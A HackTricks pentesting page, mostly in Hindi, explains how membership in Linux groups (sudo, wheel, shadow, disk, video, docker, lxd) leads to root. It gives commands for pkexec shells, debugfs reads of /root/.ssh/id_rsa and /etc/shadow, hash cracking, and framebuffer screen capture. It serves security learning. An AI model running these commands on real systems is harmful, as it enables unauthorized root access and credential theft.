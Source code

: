 {% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="/.gitbook/assets/image (48).png" alt=""><figcaption></figcaption></figure>

Use [**Trickest**](https://trickest.com/?utm_source=hacktricks&utm_medium=text&utm_campaign=ppc&utm_term=trickest&utm_content=command-injection) to easily build and **automate workflows** powered by the world's **most advanced** community tools.\
Get Access Today:

{% embed url="https://trickest.com/?utm_source=hacktricks&utm_medium=banner&utm_campaign=ppc&utm_content=command-injection" %}

# Sudo/Admin Groups

## **PE - Method 1**

**कभी-कभी**, **डिफ़ॉल्ट रूप से \(या क्योंकि कुछ सॉफ़्टवेयर को इसकी आवश्यकता होती है\)** **/etc/sudoers** फ़ाइल के अंदर आप इनमें से कुछ पंक्तियाँ पा सकते हैं:
```bash
# Allow members of group sudo to execute any command
%sudo	ALL=(ALL:ALL) ALL

# Allow members of group admin to execute any command
%admin 	ALL=(ALL:ALL) ALL
```
यह मतलब है कि **कोई भी उपयोगकर्ता जो sudo या admin समूह का सदस्य है, वह sudo के रूप में कुछ भी निष्पादित कर सकता है**।

यदि ऐसा है, तो **रूट बनने के लिए आप बस निष्पादित कर सकते हैं**:
```text
sudo su
```
## PE - Method 2

सभी suid बाइनरी खोजें और जांचें कि क्या बाइनरी **Pkexec** है:
```bash
find / -perm -4000 2>/dev/null
```
यदि आप पाते हैं कि बाइनरी pkexec एक SUID बाइनरी है और आप sudo या admin के सदस्य हैं, तो आप संभवतः pkexec का उपयोग करके sudo के रूप में बाइनरी निष्पादित कर सकते हैं। इसकी सामग्री की जांच करें:
```bash
cat /etc/polkit-1/localauthority.conf.d/*
```
वहाँ आप पाएंगे कि कौन से समूह **pkexec** निष्पादित करने की अनुमति रखते हैं और **डिफ़ॉल्ट रूप से** कुछ लिनक्स में **sudo या admin** के कुछ समूह **प्रकट** हो सकते हैं।

**रूट बनने के लिए आप निष्पादित कर सकते हैं**:
```bash
pkexec "/bin/sh" #You will be prompted for your user password
```
यदि आप **pkexec** निष्पादित करने की कोशिश करते हैं और आपको यह **त्रुटि** मिलती है:
```bash
polkit-agent-helper-1: error response to PolicyKit daemon: GDBus.Error:org.freedesktop.PolicyKit1.Error.Failed: No session for cookie
==== AUTHENTICATION FAILED ===
Error executing command as another user: Not authorized
```
**यह इसलिए नहीं है कि आपके पास अनुमतियाँ नहीं हैं बल्कि इसलिए कि आप GUI के बिना जुड़े नहीं हैं**। और इस समस्या का एक समाधान यहाँ है: [https://github.com/NixOS/nixpkgs/issues/18012\#issuecomment-335350903](https://github.com/NixOS/nixpkgs/issues/18012#issuecomment-335350903)। आपको **2 अलग ssh सत्र** की आवश्यकता है:

{% code title="session1" %}
```bash
echo $$ #Step1: Get current PID
pkexec "/bin/bash" #Step 3, execute pkexec
#Step 5, if correctly authenticate, you will have a root session
```
{% endcode %}

{% code title="session2" %}
```bash
pkttyagent --process <PID of session1> #Step 2, attach pkttyagent to session1
#Step 4, you will be asked in this session to authenticate to pkexec
```
{% endcode %}

# व्हील समूह

**कभी-कभी**, **डिफ़ॉल्ट रूप से** **/etc/sudoers** फ़ाइल के अंदर आप यह पंक्ति पा सकते हैं:
```text
%wheel	ALL=(ALL:ALL) ALL
```
यह मतलब है कि **कोई भी उपयोगकर्ता जो समूह व्हील का सदस्य है, वह sudo के रूप में कुछ भी निष्पादित कर सकता है**।

यदि ऐसा है, तो **रूट बनने के लिए आप बस निष्पादित कर सकते हैं**:
```text
sudo su
```
# Shadow Group

**शैडो** समूह के उपयोगकर्ता **/etc/shadow** फ़ाइल को **पढ़** सकते हैं:
```text
-rw-r----- 1 root shadow 1824 Apr 26 19:10 /etc/shadow
```
So, read the file and try to **crack some hashes**.

# Disk Group

यह विशेषाधिकार लगभग **रूट एक्सेस के बराबर** है क्योंकि आप मशीन के अंदर सभी डेटा तक पहुँच सकते हैं।

Files:`/dev/sd[a-z][1-9]`
```text
debugfs /dev/sda1
debugfs: cd /root
debugfs: ls
debugfs: cat /root/.ssh/id_rsa
debugfs: cat /etc/shadow
```
ध्यान दें कि debugfs का उपयोग करके आप **फाइलें लिख** भी सकते हैं। उदाहरण के लिए, `/tmp/asd1.txt` को `/tmp/asd2.txt` में कॉपी करने के लिए आप कर सकते हैं:
```bash
debugfs -w /dev/sda1
debugfs:  dump /tmp/asd1.txt /tmp/asd2.txt
```
हालांकि, यदि आप **रूट द्वारा स्वामित्व वाले फ़ाइलें लिखने** की कोशिश करते हैं \(जैसे `/etc/shadow` या `/etc/passwd`\) तो आपको "**अनुमति अस्वीकृत**" त्रुटि मिलेगी।

# वीडियो समूह

कमांड `w` का उपयोग करके आप **जान सकते हैं कि कौन सिस्टम पर लॉग इन है** और यह निम्नलिखित आउटपुट दिखाएगा:
```bash
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
yossi    tty1                      22:16    5:13m  0.05s  0.04s -bash
moshe    pts/1    10.10.14.44      02:53   24:07   0.06s  0.06s /bin/bash
```
The **tty1** का मतलब है कि उपयोगकर्ता **yossi शारीरिक रूप से** मशीन पर एक टर्मिनल में लॉग इन है।

**video group** को स्क्रीन आउटपुट देखने का अधिकार है। मूल रूप से आप स्क्रीन को देख सकते हैं। ऐसा करने के लिए, आपको **स्क्रीन पर वर्तमान छवि को** कच्चे डेटा में प्राप्त करना होगा और यह जानना होगा कि स्क्रीन किस रिज़ॉल्यूशन का उपयोग कर रही है। स्क्रीन डेटा को `/dev/fb0` में सहेजा जा सकता है और आप इस स्क्रीन का रिज़ॉल्यूशन `/sys/class/graphics/fb0/virtual_size` पर पा सकते हैं।
```bash
cat /dev/fb0 > /tmp/screen.raw
cat /sys/class/graphics/fb0/virtual_size
```
To **open** the **raw image** you can use **GIMP**, select the **`screen.raw`** file and select as file type **Raw image data**:

![](../../.gitbook/assets/image%20%28208%29.png)

Then modify the Width and Height to the ones used on the screen and check different Image Types \(and select the one that shows better the screen\):

![](../../.gitbook/assets/image%20%28295%29.png)

# Root Group

ऐसा लगता है कि डिफ़ॉल्ट रूप से **रूट समूह के सदस्य** कुछ **सेवा** कॉन्फ़िगरेशन फ़ाइलों या कुछ **लाइब्रेरी** फ़ाइलों या **अन्य दिलचस्प चीजों** को **संशोधित** करने तक पहुँच प्राप्त कर सकते हैं जो विशेषाधिकार बढ़ाने के लिए उपयोग की जा सकती हैं...

**जांचें कि रूट सदस्य कौन सी फ़ाइलें संशोधित कर सकते हैं**:
```bash
find / -group root -perm -g=w 2>/dev/null
```
# Docker Group

आप होस्ट मशीन के रूट फाइल सिस्टम को एक इंस्टेंस के वॉल्यूम में माउंट कर सकते हैं, इसलिए जब इंस्टेंस शुरू होता है, तो यह तुरंत उस वॉल्यूम में `chroot` लोड करता है। यह प्रभावी रूप से आपको मशीन पर रूट देता है।

{% embed url="https://github.com/KrustyHack/docker-privilege-escalation" %}

{% embed url="https://fosterelli.co/privilege-escalation-via-docker.html" %}

# lxc/lxd Group

[lxc - Privilege Escalation](lxd-privilege-escalation.md)


<figure><img src="/.gitbook/assets/image (48).png" alt=""><figcaption></figcaption></figure>

[**Trickest**](https://trickest.com/?utm_source=hacktricks&utm_medium=text&utm_campaign=ppc&utm_term=trickest&utm_content=command-injection) का उपयोग करें ताकि आप आसानी से **वर्कफ़्लो** बना सकें और **स्वचालित** कर सकें जो दुनिया के **सबसे उन्नत** सामुदायिक उपकरणों द्वारा संचालित हैं।\
आज ही एक्सेस प्राप्त करें:

{% embed url="https://trickest.com/?utm_source=hacktricks&utm_medium=banner&utm_campaign=ppc&utm_content=command-injection" %}

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **जुड़ें** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) या **हमें** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर **फॉलो** करें।**
* हैकिंग ट्रिक्स साझा करें और [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।

</details>
{% endhint %}
